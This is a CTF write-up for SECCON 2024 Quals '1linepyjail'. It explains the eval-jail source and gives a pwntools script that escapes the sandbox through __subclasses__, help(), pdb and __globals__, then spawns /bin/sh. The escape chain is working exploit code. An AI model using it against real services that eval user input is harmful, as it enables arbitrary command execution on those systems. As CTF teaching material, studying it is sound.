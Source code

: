 ## SECCON 2024 Quals 1linepyjail

```python
print(eval(code, {"__builtins__": None}, {}) if len(code := input("jail> ")) <= 100 and __import__("re").fullmatch(r'([^()]|\(\))*', code) else ":(")
```

Requirements:

1. Length <= 100: Try hard to reduce input length
2. Allow `()` but no parameters: Use `sys.modules["pdb"].set_trace()`
3. No builtins: Use `().__class__.__base__.__subclasses__()` to find `sys`

Steps:

1. Locate `<class '_sitebuiltins._Helper'>` and `<class '_sitebuiltins._Printer'>` in `().__class__.__base__.__subclasses__()`
2. Call `help()` via `<class '_sitebuiltins._Helper'>` and load `pdb` module in help() system
3. Locate `sys` module via `<class '_sitebuiltins._Printer'>.__init__.__globals__` and execute `sys.modules['pdb'].set_trace()`

Attack script:

```python
from pwn import *

context(log_level="debug")

# step 1. locate Helper and Printer
p = process(["python3", "jail.py"])
p.recvuntil(b"jail>")
p.sendline("().__class__.__base__.__subclasses__()".encode())
res = p.recvline().decode()

helper_index = res.split(", ").index("<class '_sitebuiltins._Helper'>")
printer_index = res.split(", ").index("<class '_sitebuiltins._Printer'>")
print("Helper", helper_index)
print("Printer", printer_index)

# step 2. call help() to load pdb module
p = process(["python3", "jail.py"])
p.recvuntil(b"jail>")
p.sendline(
    (
        f"().__class__.__base__.__subclasses__()[{helper_index}]()()"
    ).encode()
)
# load pdb and return to jail
p.sendline(b"pdb")
p.sendline(b"jail")
p.recvuntil(b"jail>")
# step 3. locate sys module and call `sys.modules['pdb'].set_trace()`
p.sendline(
    (
        f"().__class__.__base__.__subclasses__()[{printer_index}].__init__.__globals__['sys'].modules['pdb'].set_trace()"
    ).encode()
)
# in pdb
p.recvuntil(b"(Pdb) ")
p.sendline(
    (
        f"().__class__.__base__.__subclasses__()[{printer_index}].__init__.__globals__['sys'].modules['os'].system('/bin/sh')"
    ).encode()
)
p.interactive()
```
